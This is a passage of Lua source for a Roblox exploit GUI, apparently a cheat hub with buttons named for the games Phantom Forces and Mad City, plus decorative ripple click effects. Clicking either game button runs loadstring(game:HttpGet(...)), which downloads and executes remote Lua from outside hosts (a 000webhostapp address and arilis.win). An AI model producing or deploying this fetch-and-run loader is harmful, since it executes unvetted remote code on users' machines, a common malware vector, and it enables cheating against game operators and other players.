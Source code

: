 
end
coroutine.resume(coroutine.create(SCRIPT_FAAJ71_FAKESCRIPT))
function SCRIPT_VNPT66_FAKESCRIPT() -- PhantomForces.LocalScript 
	local script = Instance.new('LocalScript')
	script.Parent = PhantomForces
	local btn=script.Parent
	
	btn.MouseButton1Click:Connect(function()
	loadstring(game:HttpGet("https://antinomian-dams.000webhostapp.com/PF/PF_Script.txt", true))()
	end)

end
coroutine.resume(coroutine.create(SCRIPT_VNPT66_FAKESCRIPT))
function SCRIPT_EZDK83_FAKESCRIPT() -- PhantomForces.Effect 
	local script = Instance.new('LocalScript')
	script.Parent = PhantomForces
	script.Parent.MouseButton1Down:Connect(function(X, Y)
	local C = Instance.new('ImageLabel', script.Parent)
	C.BackgroundTransparency = 1
	C.Position = UDim2.new(0, X - 0, 0, Y - 35) - UDim2.new(0, script.Parent.AbsolutePosition.X, 0, script.Parent.AbsolutePosition.Y)
	C.Size = UDim2.new(0, 0, 0, 0)
	C.Image = 'rbxassetid://200182847'
	C.ImageColor3 = Color3.new(0.0980392, 0.0980392, 0.0980392)
	C.Name = 'Circle'
	C:TweenSizeAndPosition(UDim2.new(0, 500, 0, 500), C.Position - UDim2.new(0, 250, 0, 250), 'Out', 'Quart', 2.5)
	for i = 0, 1, 0.03 do
	C.ImageTransparency = i
	game:GetService('RunService').RenderStepped:wait()
	end
	C:destroy()
	end)
	

end
coroutine.resume(coroutine.create(SCRIPT_EZDK83_FAKESCRIPT))
function SCRIPT_ZUFK84_FAKESCRIPT() -- MadCity.LocalScript 
	local script = Instance.new('LocalScript')
	script.Parent = MadCity
	local btn=script.Parent
	
	btn.MouseButton1Click:Connect(function()
	loadstring(game:HttpGet(('http://arilis.win/B1316DFA-DC3A-405D-BF19-99588992BC70.lua'),true))()
	end)

end
coroutine.resume(coroutine.create(SCRIPT_ZUFK84_FAKESCRIPT))
function SCRIPT_AXHP65_FAKESCRIPT() -- MadCity.Effect 
	local script = Instance.new('LocalScript')
	script.Parent = MadCity
	script.Parent.MouseButton1Down:Connect(function(X, Y)
	local C = Instance.new('ImageLabel', script.Parent)
	C.BackgroundTransparency = 1
	C.Position = UDim2.new(0, X - 0, 0, Y - 35) - UDim2.new(0, script.Parent.AbsolutePosition.X, 0, script.Parent.AbsolutePosition.Y)
	C.Size = UDim2.new(0, 0, 0, 0)
	C.Image = 'rbxassetid://200182847'
	C.ImageColor3 = Color3.new(0.0980392, 0.0980392, 0.0980392)
	C.Name = 'Circle'
	C:TweenSizeAndPosition(UDim2.new(0, 500, 0, 500), C.Position - UDim2.new(0, 250, 0, 250), 'Out', 'Quart', 2.5)
	for i = 0, 1, 0.03 do
	C.ImageTransparency = i
	game:GetService('RunService').RenderStepped:wait()
	end